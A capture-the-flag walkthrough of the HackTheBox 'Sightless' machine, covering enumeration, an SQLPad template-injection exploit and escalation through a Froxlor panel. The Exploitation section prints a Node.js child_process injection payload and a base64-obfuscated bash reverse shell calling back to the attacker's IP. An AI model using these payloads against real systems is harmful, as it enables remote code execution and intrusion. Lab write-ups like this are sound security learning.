




## Enumeration

As always we can start with an `nmap` scan:

```bash
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.129.170.105]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c9:6e:3b:8f:c6:03:29:05:e5:a0:ca:00:90:c9:5c:52 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGoivagBalUNqQKPAE2WFpkFMj+vKwO9D3RiUUxsnkBNKXp5ql1R+kvjG89Iknc24EDKuRWDzEivKXYrZJE9fxg=
|   256 9b:de:3a:27:77:3b:1b:e1:19:5f:16:11:be:70:e0:56 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIA4BBc5R8qY5gFPDOqODeLBteW5rxF+qR5j36q9mO+bu
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://sightless.htb/
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.94SVN%I=7%D=9/7%Time=66DCA36E%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,A3,"220\x20ProFTPD\x20Server\x20\(sightless\.htb\x20FTP\x20S
SF:erver\)\x20\[::ffff:10\.129\.170\.105\]\r\n500\x20Invalid\x20command:\x
SF:20try\x20being\x20more\x20creative\r\n500\x20Invalid\x20command:\x20try
SF:\x20being\x20more\x20creative\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The nmap scan shows us many ports open including
- 21 running ftp
- 22 running ssh
- 80 running http

We can then explore ports 21 and 80 to see if we discover something interesting
### Port 21
We can try an anonymous login but it doesn't work

```bash
ftp anonymous@10.129.170.105                                                                                          
Connected to 10.129.170.105.
220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.129.170.105]
550 SSL/TLS required on the control channel
ftp: Login failed
```
### Port 80
Going over to `sightless.htb` we see a website and we can try to enumerate it further using `gobuster`and `dirsearch`

```bash
gobuster vhost -w /usr/share/SecLists/Discovery/DNS/namelist.txt  -u http://sightless.htb --append-domain                                                
===============================================================                                                                                              
Gobuster v3.6                                                                                                                                                
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)                                                                                                
===============================================================                                                                                              
[+] Url:             http://sightless.htb                                                                                                                    
[+] Method:          GET                                                                                                                                     
[+] Threads:         10                                                                                                                                      
[+] Wordlist:        /usr/share/SecLists/Discovery/DNS/namelist.txt                                                                                          
[+] User Agent:      gobuster/3.6                                                                                                                            
[+] Timeout:         10s                                                                                                                                     
[+] Append Domain:   true                                                                                                                                    
===============================================================
Starting gobuster in VHOST enumeration mode                                
===============================================================
===============================================================
Finished
===============================================================
```

Clicking on the buttons at the bottom we discover a new subdomain: `sqlpad.sightless.htb`
--> we can add it to our hosts file and visit it ==> we are met by a database schema where we might be able to run commands 

```bash
dirsearch -u http://sqlpad.sightless.htb                                                                                                                 
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest
/pkg_resources.html                                                                                                                                          
  from pkg_resources import DistributionNotFound, VersionConflict                                                                                            
                                                                                                                                                             
  _|. _ _  _  _  _ _|_    v0.4.3                                                                                                                             
 (_||| _) (/_(_|| (_| )                                                                                                                                      
                                                                                                                                                             
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460                                                                 
                                                                                                                                                             
Output File: /home/flavien/Desktop/HTB CTFs/Machines/Sightless/reports/http_sqlpad.sightless.htb/_24-09-07_21-11-14.txt                                      
                                                                                                                                                             
Target: http://sqlpad.sightless.htb/                                                                                                                         
                                                                                                                                                             
[21:11:14] Starting:                                                                                                                                         
[21:11:31] 404 -   21B  - /api                                              
[21:11:31] 404 -   21B  - /api/                                             
[21:11:31] 404 -   21B  - /api/2/explore/                                    
[21:11:31] 404 -   21B  - /api/_swagger_/                                      
[21:11:31] 404 -   21B  - /api/api                                           
[21:11:31] 404 -   21B  - /api/__swagger__/                                 
[21:11:31] 404 -   21B  - /api/2/issue/createmeta                            
[21:11:31] 404 -   21B  - /api/apidocs/swagger.json 
[21:11:31] 404 -   21B  - /api/application.wadl
[21:11:32] 404 -   21B  - /api/vendor/phpunit/phpunit/phpunit
[21:11:33] 301 -  179B  - /assets  ->  /assets/
[21:11:46] 200 -   10KB - /favicon.ico  
[21:11:56] 200 -  297B  - /manifest.json
                                        
Task Completed
```

We see that we can create an access and a connection on the dashboard to connect to an `sql`database 



We see 2 users: `john@sightless.htb & admin@sightless.htb`

==> After looking around for a bit we discover [this command injection](https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb) that we can try 
## Exploitation
We can follow what is said in the blog above to gain a remote shell, first we can create our docker container:

```bash
sudo docker run -p 3000:3000 --name sqlpad -d --env SQLPAD_ADMIN=admin --env SQLPAD_ADMIN_PASSWORD=admin sqlpad/sqlpad:latest
0e721809c73d06b128e9693c6510ca171ea194249b545e0b55bab9eb70d7d125

---------------------------------------------------------------------------------

sudo docker ps                                                                                                               
CONTAINER ID   IMAGE                  COMMAND                CREATED         STATUS        PORTS                                       NAMES
0e721809c73d   sqlpad/sqlpad:latest   "/docker-entrypoint"   2 seconds ago   Up 1 second   0.0.0.0:3000->3000/tcp, :::3000->3000/tcp   sqlpad
```

Then we need to connect to it using the dashboard:


And finally we can verify if we have a working shell using:

```bash
sudo docker exec -it sqlpad cat /tmp/pwn
```

Where we see that we have successfully executed commands on the server --> we can now use a bash payload to try and get a reverse shell

```bash
echo YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuODcvNDQ0NCAwPiYx | base64 -d | bash
```

and we can create a new connection with the database field to get a reverse shell

```bash
{{ process.mainModule.require('child_process').exec('echo YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuODcvNDQ0NCAwPiYx | base64 -d | bash') }}
```

and this gives us a reverse shell
## Privilege escalation

Checking out what services are running on the local ports, we discover a `Froxlor`instance running on port 8080 that we can verify using:

```bash
curl 127.0.0.1:8080

<title>Froxlor</title>
```

and we also notice a few other ports

```bash
netstat -ltnp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:44727         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:40671         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:37883         0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::21                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -
```

We can then port forward all of the 40*** ports and inspect them using `Chrome`,



once that done we can inspect the connection and we get the credentials for the `admin.sightless.htb:8080`website



And we have the creds: **admin - ForlorfroxAdmin** as well as a url `admin.sightless.htb:8080/admin_logger.php?page=log`

We finally can login to this website with these credentials on `http://127.0.0.1:8080/index.php` and we can then use the php configuration stuff to copy the root flag and then make it readable




```bash
cp /root/root.txt /tmp/root.txt
chmod 644 /tmp/root.txt
```

and after logging out and in again we can read the flag